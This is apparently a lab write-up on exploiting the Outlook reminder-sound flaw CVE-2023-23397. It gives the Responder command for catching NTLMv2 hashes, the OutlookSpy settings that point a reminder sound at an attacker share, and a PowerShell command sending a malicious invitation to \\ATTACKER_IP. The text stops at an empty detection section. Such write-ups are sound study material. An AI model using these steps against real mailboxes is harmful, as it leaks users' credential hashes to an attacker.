 We can use `Responder` to emulate an SMB server listening on port 445 to capture the NTLMv2 authentication process

```
responder -I ens5
```

**Installing the required tools**

The OutlookSpy will allow you to access all of Outlook's internal parameters directly, including the reminder's sound file.

**Creating the appointment**

To create an appointment, you will first need to click on the calendar and then on the New Appointment button on the taskbar !\[\[cve-outlook-1.png]] We will create an appointment that includes a reminder set in 0 minutes so that it triggers right after the victim receives it.

**Configuring the appointment with outlookspy plugin**

To view our current appointment from OutlookSpy, click the `OutlookSpy` tab and then the `CurrentItem` button in the taskbar !\[\[cve-outlook-2.png]] From there we need to configure three parameters related to the appointment

* **ReminderPlaySound:** boolean value that indicates if a sound will be played with the reminder.
* **ReminderOverrideDefault**: boolean value that indicates the receiving Outlook client to play the sound pointed by **ReminderSoundFile**, instead of the default one.
* **ReminderSoundFile**: string with the path to the sound file to be used. This will point to a bogus shared folder in the attacker machine.

Then using the script tab, set the parameters to the values shown in the screenshot below (change the path to the malicious sound file according to your environment) !\[\[cve-outlook-3.png]]

Finally, save your appointment to add it to your calendar, making sure the reminder is set to 0 minutes and that the appointment matches the current time and date, as we want it to trigger immediately.

**Automating the exploitation**

All the above steps can be automated using the below powershell script

```
https://github.com/api0cradle/CVE-2023-23397-POC-Powershell/blob/main/CVE-2023-23397.ps1
```

You can also import the exploit's functions with the Import-Module cmdlet. After that, both functions will be available in your current Powershell. To send an email with a malicious appointment, you can just run the following command

```
C:\Users\Administrator\Desktop\> Import-Module .\CVE-2023-23397.ps1 PS 

C:\Users\Administrator\Desktop\> Send-CalendarNTLMLeak -recipient "test@test.com" -remotefilepath "\\ATTACKER_IP\foo\bar.wav" -meetingsubject "Meeting" -meetingbody "This is just a regular meeting invitation :)"
```

**Detection and mitigation**

**Sigma Rules**
